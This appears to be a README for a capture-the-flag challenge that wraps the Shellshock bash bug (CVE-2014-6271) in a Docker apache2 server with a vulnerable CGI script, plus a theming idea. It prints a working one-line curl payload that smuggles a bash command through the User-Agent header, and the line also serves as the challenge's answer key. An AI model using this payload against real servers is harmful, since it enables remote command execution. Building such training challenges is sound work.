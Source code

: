 # shellshock

Based on CVE-2014-6271

This docker container is running an apache2 webserver which competitors will have access to. The webserver doesn't hold the exploit, but rather enables competitors to leverage a vulnerable version of bash (4.2) via a cgi script to gain RCE.

Bash 4.2 is compiled from source: https://ftp.gnu.org/gnu/bash/

One line solution: `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo MY_FLAG > /flags/flag.txt'" http://<address>/cgi-bin/vulnerable`

As for themeing, there is a Transformer named Shellshock: https://tfwiki.net/wiki/Shellshock. We can rename the challenge but have the initial webpage or CTFd show this as a hint?